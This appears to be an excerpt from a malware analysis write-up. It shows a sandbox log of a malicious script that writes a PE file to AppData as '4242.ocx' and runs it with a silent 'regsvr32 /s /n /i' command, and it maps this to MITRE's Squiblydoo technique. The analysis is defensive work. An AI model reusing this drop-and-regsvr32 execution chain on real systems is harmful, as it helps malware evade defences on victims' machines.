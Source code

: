 ```
10 Oct 20:22:30 - ADODB_Stream[11].charset.get() => (number) '437'
10 Oct 20:22:30 - ADODB_Stream[11].content = (object) 'MZ??????????????????????@???????????????????????????????????????????????!??L?!This program cannot be run in DOS mode.???$???????PE??L???R??^???????????!???2???????????????????????????????????????????????????????????????????????????????????????????? ? ... (truncated)'
10 Oct 20:22:30 - ADODB_Stream[11].charset.get() => (number) '437'
10 Oct 20:22:30 - ADODB_Stream[11].WriteText(str) - 300546 bytes, encoding: 437
10 Oct 20:22:30 - ADODB_Stream[11].content.get() => (object) 'MZ??????????????????????@???????????????????????????????????????????????!??L?!This program cannot be run in DOS mode.???$???????PE??L???R??^???????????!???2???????????????????????????????????????????????????????????????????????????????????????????? ? ... (truncated)'
10 Oct 20:22:30 - ADODB_Stream[11].size = (number) '300546'
10 Oct 20:22:30 - ADODB_Stream[11].SaveToFile(C:\Users\User\AppData\Roaming\Microsoft\4242.ocx, undefined)
10 Oct 20:22:30 - ADODB_Stream[11].content.get() => (object) 'MZ??????????????????????@???????????????????????????????????????????????!??L?!This program cannot be run in DOS mode.???$???????PE??L???R??^???????????!???2???????????????????????????????????????????????????????????????????????????????????????????? ? ... (truncated)'
10 Oct 20:22:30 - ADODB_Stream[11].Close()
10 Oct 20:22:30 - GetObject(winmgmts:{impersonationLevel=impersonate}!\\.\root\cimv2, undefined)
10 Oct 20:22:30 - new AutomationObject[12](winmgmts:{impersonationLevel=impersonate}!\\.\root\cimv2, undefined)
10 Oct 20:22:30 - >>> FIXME: AutomationObject[12](winmgmts:{impersonationLevel=impersonate}!\\.\root\cimv2, undefined)[Get] not defined
10 Oct 20:22:30 - >>> Silencing catch TypeError: nvmlxxyx4469.Get is not a function
    at nvmlxxyx31 (../try2/Function14.js:1:7698)
    at nvmlxxyx9727 (../try2/Function14.js:1:5108)
    at ../try2/Function14.js:1:8094
    at Script.runInContext (vm.js:142:18)
    at Object.runInContext (vm.js:293:6)
    at run_in_ctx (jailme.js:324:16)
    at Object.<anonymous> (jailme.js:359:20)
    at Module._compile (internal/modules/cjs/loader.js:1063:30)
    at Object.Module._extensions..js (internal/modules/cjs/loader.js:1092:10)
    at Module.load (internal/modules/cjs/loader.js:928:32)
10 Oct 20:22:30 - WScript.Shell[6].Run(regsvr32 /s /n /i "C:\Users\User\AppData\Roaming\Microsoft\4242.ocx", 1, 0)
10 Oct 20:22:30 - ==> Cleaning up sandbox.
10 Oct 20:22:30 - ==> Script execution finished, dumping sandbox environment to a file.
10 Oct 20:22:30 - The sandbox context has been  saved to: sandbox_dump_after.json
10 Oct 20:22:30 - Saving: output/Function[5].js
10 Oct 20:22:30 - Saving: output/C__Users_User_AppData_Roaming_Microsoft_17939.doc
10 Oct 20:22:30 - Saving: output/C__Users_User_AppData_Roaming_Microsoft_4242.ocx
```


[CAR-2019-04-003: Squiblydoo](https://car.mitre.org/analytics/CAR-2019-04-003/) talks about the usage of `regsvr32`, this malware also uses `regsvr32 /s /n /i "C:\Users\User\AppData\Roaming\Microsoft\4242.ocx` to avoid defense inside the machine (MITRE ATT&CK T1218.010).

The `doc` file (Artifact #11, `ce638eb65e8e8a54becb218f05ba0aadbaded36fc0152591dc3e62b080c46c85`, VT N/A) is a nifty little misdirect too. The Word document is not malicious at all and it's mostly empty.
